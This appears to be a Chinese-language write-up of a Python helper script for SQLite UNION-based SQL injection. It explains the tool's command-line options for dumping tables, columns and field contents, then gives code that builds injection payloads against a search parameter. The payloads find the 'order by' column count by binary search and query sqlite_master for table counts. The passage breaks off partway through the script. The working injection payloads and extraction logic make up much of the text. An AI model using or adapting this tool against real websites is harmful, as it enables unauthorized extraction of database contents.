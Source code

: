 
Sqlite联合注入辅助脚本

0×01概述：

SQLite是一款轻型的数据库。sqlite存在一个叫SQLITE_MASTER的表，这与MySQL5.x的INFORMATION_SCHEMA表类似。sqlite_master 表中保存了数据库中所有表的信息，该表中比较有用的字段有“name,sql”，name字段存放的是表名，sql字段存放的是表结构。可以通过内置函数sqlite_version()获取版本信息，和其他数据库一样，通过“order by”判断长度，该数据库的注释符和ORACLE数据库一样，都是--。

0×02使用参数：
  
  python sqlite.py -u url --tables＃获取所有表名
  
  python sqlite.py -u url --columns＃获取所有表结构，从而获取字段值
  
  python sqlite.py -u url -T table_name -C column_name -d＃获取指定字段内容

0×03：信息获取

通过自定义函数SetPoc，根据功能需求，设置各发包的PoC，比如猜测“order by”长度，获取版本信息，获取表名，获取表中字段名，以及字段的具体内容。
首先判断注入类型，是整型（123和555 = 555--），字符型（123'和555 = 555--），还是搜索型（123％'和555 = 555--），再通过二分法判断“order by”长度，如果一开始插入order by mid（尝试的长度）的包返回状态和正常的原始包返回状态不相等，则说明mid过大，如果原始正常包返回状态与插入的order by mid和order by mid + 1的包返回状态相等，则说明mid过小，如果原始正常包返回状态与插入order by mid的返回包状态相等，但与order by mid + 1的包返回状态不相等，则成功获取order by长度。

def SetPoc(self, action):

        # 获取order by 数目的poc
        if action == "orderby":
            poc0 = "?callback=jQuery21005291906092260772_1522659952161&mainQ=四同" \
                   "&q=&pageIndex=1&searchname=&_=1522659952172"
            poc_start = "?callback=jQuery21005291906092260772_1522659952161&mainQ=四同%') "
            poc_end = "--&q=&pageIndex=1&searchname=&_=1522659952172"
            response0 = SendData(target, poc0)
            min = 0
            max = self.OrderBy
            middle = (max+min) / 2
            while self.OrderBy > 0:
                ordpoc1 = (poc_start + "order by {0}" + poc_end).format(middle)
                ordpoc2 = (poc_start + "order by {0}" + poc_end).format(middle + 1)
                response1 = SendData(target, ordpoc1)
                response2 = SendData(target, ordpoc2)
                if response0.status_code != response1.status_code:
                    max = middle
                    middle = (min+max) / 2
                else:
                    if response1.status_code == response2.status_code:
                        
                        if response1.status_code == 200:
                            min = middle
                            middle = (min+max) / 2
                        else:
                            max = middle
                            middle = (min+max) / 2
                    else:
                        self.OrderBy = middle
                        print ("》Order By number is %s" % self.OrderBy)
                        break   


通过调用count(1)可获取数据库中表的总数，通过查询系统表SQLITE_MASTER中的name字段，可获取数据库中所有表名，这和MySQL数据库中系统表INFORMATION_SCHEMA中的“table_name”字段类似。通过limit关键字指定获取信息的开始位置和数量，比如limit 0,1，则是从第一条开始，并且只获取一条数据

        # 获取表数量的poc
        elif action == "tabnum":
            tabnumpoc_start = "?callback=jQuery21005291906092260772_1522659952161&mainQ=四同%') " \
                          "and 1=2 UNION SELECT null,'<xxoo>'||count(1)||'</xxoo>'"
            tabnumpoc_end = " from sqlite_master--&q=&pageIndex=1&searchname=&_=1522659952172"
            tabnumpoc = tabnumpoc_start + self.poc_mid + tabnumpoc_end
            return tabnumpoc
